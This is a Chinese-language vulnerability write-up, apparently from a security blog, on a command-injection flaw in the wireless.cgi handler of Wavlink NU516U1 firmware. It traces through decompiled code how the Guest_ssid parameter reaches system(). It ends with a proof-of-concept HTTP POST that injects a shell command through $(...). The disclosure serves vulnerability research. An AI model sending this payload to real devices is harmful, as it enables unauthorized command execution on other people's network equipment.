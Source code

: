 ```yaml
---
title: wavlink-NU516-wireless
tags: 二进制
categories: 物联网
toc_number: true
date: 2025/8/1 11:20:53 
---
```


# 漏洞概述

Wavlink是一家专注于网络设备和通信解决方案的公司，提供优质的路由器、扩展器和网络配件。其下的WAVLINK-NU516U1型号的固件，功能用于提供打印机服务器网卡，其管理后台存在命令注入漏洞，允许攻击者完成os命令执行。

固件下载地址：

https://docs.wavlink.xyz/Firmware/fm-516u1/

 

 

# 代码审计

对固件binwalk -Me [固件位置] 解包，找到wireless.cgi程序，使用ida打开

 

（逆向分析的过程涉及的伪代码比较长，这里只截取ida显示的关键片段）

 

在main（ida中显示为ftext）函数中，首先获取了用户提交的page参数值

![](img/1.png)

将page参数值设置为GuestWifi，会跳转进入sub_4032E4函数

![](img/2.png)

sub_4032E4函数内，获取了Guest_ssid参数值，该值可以post传参可控

![](img/3.png)

随后Guest_ssid参数值被传入sub_407504函数内

![](img/4.png)

在其中拼接给v8变量，交给system函数执行，产生了命令注入

![](img/5.png)

此处反编译代码中，system函数参数显示为空，但在汇编代码中仍然可以判断出其参数为v8

# POC

```shell
POST /cgi-bin/wireless.cgi HTTP/1.1

Host: 10.10.10.2

Content-Length: 269

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

Origin: http://10.10.10.2

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Referer: http://10.10.10.2/

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9

Connection: close

page=GuestWifi&guestEn=1&Guest_ssid=$(ps>/1.txt)
```

